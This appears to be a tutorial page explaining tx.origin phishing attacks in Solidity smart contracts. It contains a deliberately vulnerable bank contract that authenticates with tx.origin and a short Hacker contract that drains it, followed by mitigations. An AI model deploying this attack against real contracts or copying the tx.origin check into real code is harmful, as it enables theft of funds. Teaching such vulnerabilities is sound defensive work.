 ```yaml
---
title: Tx Origin Attacks
displayed_sidebar: generalSidebar
---
```


A transaction origin attack is form of phising attack that can drain a contract of all funds.

In Solidity, `tx.origin` retrieves the address of the transaction originator, distinguishing it from `msg.sender`. Let's use an example to understand their differences. Imagine that User A calls Contract B, which then calls Contract C. For Contract C, `msg.sender` would be Contract B, while `tx.origin` would still be User A. 

Using `tx.origin` for authentication in a financial contract could pose security risks. An attacker could deploy a malicious contract and trick the owner of a bank contract into calling it. Even though `msg.sender` would be the address of the attacker’s contract, `tx.origin` would still show the bank contract owner’s address, potentially allowing unauthorized transactions.

#### Simple Bank Contract

This simple bank contract tracks the owner and includes a constructor and a public method:

- **Constructor**: Assigns the `bankOwner` variable during contract creation.
- **sendFunds()**: Takes two parameters, `recipient` and `amount`. It checks if `tx.origin == bankOwner` and, if true, transfers `amount` of ETH to `recipient`. **Note: This method is vulnerable to phishing attacks!**

```solidity
contract SimpleBank {
    address public bankOwner; // tracks the contract's owner

    constructor() payable {
        bankOwner = msg.sender;
    }

    function sendFunds(address payable recipient, uint amount) public {
        require(tx.origin == bankOwner, "Caller is not the owner");
        (bool success, ) = recipient.call{value: amount}("");
        require(success, "Transfer failed");
    }
}
```

#### Hacker Contract

The malicious contract’s logic is simple: to fish the balance from the bank contract owner to the attacker’s address. It includes two state variables `thief` and `target`:

- **Constructor**: Initializes `target` contract address.
- **launchAttack()**: When called by the bank contract’s owner, it forces a transaction from the bank to the hacker’s address.

```solidity
contract Hacker {
    address payable public thief;
    SimpleBank target;

    constructor(SimpleBank _target) {
        target = SimpleBank(_target);
        thief = payable(msg.sender);
    }

    function launchAttack() public {
        target.sendFunds(thief, address(target).balance);
    }
}
```

### Preventative Measures

Two main strategies can mitigate potential `tx.origin` phishing attacks:

1. **Using `msg.sender` instead of `tx.origin`**:
   `msg.sender` accurately identifies the direct caller of the contract, thereby preventing any interference by external malicious contracts.

2. **Verifying `tx.origin == msg.sender`**:
   If `tx.origin` must be used, additionally checking if `tx.origin` is equal to `msg.sender` can prevent unauthorized external contract calls. However, this will block all calls from other contracts.

This session introduced `tx.origin` phishing attacks in smart contracts and presented two preventive approaches: using `msg.sender` and verifying both `tx.origin == msg.sender`. The first method is generally recommended as it avoids complications from other contract interactions.
